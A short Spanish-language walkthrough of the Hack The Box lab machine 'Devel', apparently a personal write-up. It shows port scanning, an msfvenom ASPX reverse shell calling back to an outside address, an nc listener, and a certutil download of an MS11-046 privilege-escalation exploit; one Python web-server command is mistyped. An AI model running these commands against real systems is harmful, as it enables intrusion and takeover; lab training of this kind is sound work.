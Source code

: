 # Hack The Box - Devel

## Exploración

Todos los puertos, rapido y silencioso
<pre>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.168.193 -oG allPorts
</pre>
 
Puertos especificos
<pre>
nmap -sCV -p135,139,445,1688,3389,49152,49153,49154,49155,49156,49157 192.168.168.193 -oN targeted
</pre>

## Acceso
Tiene IIS.
Usamos msfvenom para crear un exploit
<pre>
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.54 LPORT=443 -f aspx -o prp.aspx
</pre>

lo subimos por el ftp anonimo y a la escucha con:

<pre>
nc -nlvp 443
</pre>

## Escalada de privilegios

Ordenes interesantes

<pre>
whoami /priv
systeminfo
</pre>

Vemos con system info La versión de windows **6.1.7600 N/A Build 7600**.  
Buscamos por eso en google y vemos que nos indica una vulnerabilidad **MS11-046**.  
Buscamos MS11-046 exploit github y encontramos https://github.com/am0nsec/exploit/blob/master/windows/privs/MS11-046/  
Nos descargamos el archivo ms11-046.exe  

En una consola abrimos un servidor http donde nos hayamos copiado el fichero:
<pre>
python3 -m http-server 80
</pre>

En la windows nos creamos un temporal para almacenar el directorio y en el nos traemos el fichero.  
<pre>
certutil.exe -f -urlcache -split http://10.10.14.54/ms11-046.exe ms11-046.exe
</pre>

Ejecutamos ms11-046.exe y ya escalamos privilegios


